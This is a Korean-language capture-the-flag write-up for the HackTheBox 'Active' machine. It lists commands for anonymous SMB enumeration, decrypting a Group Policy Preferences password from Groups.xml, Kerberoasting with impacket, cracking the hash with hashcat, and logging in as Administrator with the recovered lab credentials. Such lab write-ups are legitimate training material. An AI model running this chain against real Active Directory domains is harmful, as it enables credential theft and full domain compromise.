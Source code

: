 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
***SMB로 많은 것을 할 수 있다....!***
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum (No Auth)
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml
```

![](/assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/c3a8ad49223654f2cc332332957dfad1_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/504f36a387817853d0ccbd67b19e9963_MD5.jpeg)

### Password Crack [Group Policy Preferences]
> What's GPP : 그룹 정책을 통해 도메인에 연결된 머신을 구성할 수 있으며 각 머신들은 DC에 주기적으로 연결(로그인)하여 정책을 동기화 한다. GPP의 기능 중 로컬 관리자 계정에 대한 암호를 설정하는 기능이 Groups.xml 파일의 cpassword 필드를 구성하는데, 이 부분이 공격 당하는 것이다.
   
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![](/assets/images/posts/2025-03-04-Active/c211b63404c6e1dd891c7d23ee15387c_MD5.jpeg)

### SMB Enum (SVC_TGS Auth)
```bash
smbclient //10.129.157.36/Users -U SVC_TGS --password=GPPstillStandingStrong2k18
cd SVC_TGS\Desktop\
get user.txt
```
![](/assets/images/posts/2025-03-04-Active/9901ddabe40586df2182bb843283cea2_MD5.jpeg)

### Kerber Roasting
```bash
sudo impacket-GetUserSPNs -request -dc-ip 10.129.157.36 active.htb/SVC_TGS
```
![](/assets/images/posts/2025-03-04-Active/f505e174d4732184c33027531a5aa061_MD5.jpeg)

### Hash Crack
```bash
hashcat -m 13100 Admin.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-04-Active/21faac5d9bd90c1d7e46960752d567b6_MD5.jpeg)
### SMB Enum (Administrator Auth)
```bash
smbclient //10.129.157.36/Users -U Administrator --password=Ticketmaster1968
cd Administrator\Desktop\
get root.txt
```
![](/assets/images/posts/2025-03-04-Active/9597ff171632db88777dcff7d1f0b7be_MD5.jpeg)
## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)